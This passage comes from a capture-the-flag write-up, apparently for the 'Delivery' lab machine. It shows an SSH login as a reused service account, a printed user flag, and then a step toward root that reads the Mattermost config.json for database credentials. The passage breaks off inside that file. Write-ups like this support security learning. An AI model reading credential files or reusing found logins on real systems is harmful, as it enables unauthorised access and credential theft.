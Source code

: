 ![OSticket panel](/media/2021.05/delivery_05.png){: .image-process-article-image}

The mailideriverer account also got an SSH account on the box which allow us to
get the user flag.

    :::text
    $ ssh maildeliverer@delivery.htb
    maildeliverer@delivery.htb's password:
    Linux Delivery 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64
    <SNIP>
    maildeliverer@Delivery:~$ cat user.txt
    2300770247a4dfb6f57de6d717d86b9c

# Root

We enumerate our user permission and found the MatterMost configuration file
containing the crendentials to access the database

    :::text
    maildeliverer@Delivery:~$ cat /opt/mattermost/config/config.json
    {
        "ServiceSettings": {
            "SiteURL": "",
            "WebsocketURL": "",
            "LicenseFileLocation": "",
            "ListenAddress": ":8065",
            "ConnectionSecurity": "",
            "TLSCertFile": "",
    <SNIP>
      },
        "SqlSettings": {
            "DriverName": "mysql",